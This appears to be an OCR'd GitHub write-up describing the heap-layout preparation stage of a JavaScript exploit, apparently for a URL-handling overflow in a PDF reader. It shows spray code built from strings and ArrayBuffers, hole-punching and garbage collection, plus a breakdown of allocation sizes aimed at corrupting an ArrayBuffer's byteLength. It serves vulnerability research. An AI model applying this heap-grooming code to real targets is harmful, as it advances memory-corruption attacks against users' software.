 ## 1. **Preparing Heap Layout**

```jsx
var strRelUrlSize = 0x600;
var strConUrlSize = 0x800;

function createArrayBuffer(blocksize) {
  var arr = new ArrayBuffer(blocksize - 0x10);
  var u8 = new Uint8Array(arr);
  for (var i = 0; i < arr.byteLength; i++) {
    u8[i] = 0x42;
  }
  return arr;
}

// 1. Create LFH heap space to store the string that will overwrite byteLength
var arrB = new Array(0xE0);
var sprayStr1 = unescape('%uFFFF%uFFFF%uFFFF%uFFFF%u0000') + unescape('%uFFFF').repeat((strRelUrlSize / 2) - 1 - 5);
for (var i = 0; i < arrB.length; i++) {
  arrB[i] = sprayStr1.substr(0, (strRelUrlSize / 2) - 1).toUpperCase();
}

// 2. Designate space between strings to store the relativeURL
for (var i = 0x11; i < arrB.length; i += 10) {
  arrB[i] = null;
  arrB[i] = undefined;
}

// 3. Create LFH heap space to store the connected URL
var arrA = new Array(0x130);
for (var i = 0; i < arrA.length; i++) {
  arrA[i] = createArrayBuffer(strConUrlSize);
}

// 4. Designate space in the LFH heap, allocated as an ArrayBuffer, where the connected URL will be placed
for (var i = 0x11; i < arrA.length; i += 10) {
  arrA[i] = null;
  arrA[i] = undefined;
}

// 5. Perform Garbage Collection (to actually free up the space for the URL)
gc();
```

- Preparing Heap Layout stage involves the following steps to set up the heap layout:
    1. Create an LFH heap space where the string is stored, that will overwrite the `byteLength`.
        - Allocate strings with a length of 0x600 bytes (size of the relative URL) multiple times to activate the LFH.
            - In the string `"%u????"`, the last 2 bytes (`????`) are encoded in Unicode.
            - `sprayStr1.substr(0, (strRelUrlSize / 2) - 1).toUpperCase();` represents (strRelUrlSize/2)-1 Unicode characters, excluding the 2-byte Null Terminator.
            - The string, excluding the 2-byte Null Terminator, is `strRelUrlSize-2` bytes long. Including the 2-byte null terminator, this forms the length of the relative URL.
    2. Specify a space between strings where the relative URL will be stored.
    3. Create an LFH heap space to store the connected URL.
        - Allocate ArrayBuffers multiple times with a size of 0x800 bytes (size of the connected URL) to activate the LFH.
        - The sizes of each URL and heap header are as follows:
            - Relative URL: 0x600 bytes (including null character)
            - Base URL: 0x200 bytes (including null character)
            - ArrayBuffer header: 0x10 bytes
            - Heap metadata: 0x08 bytes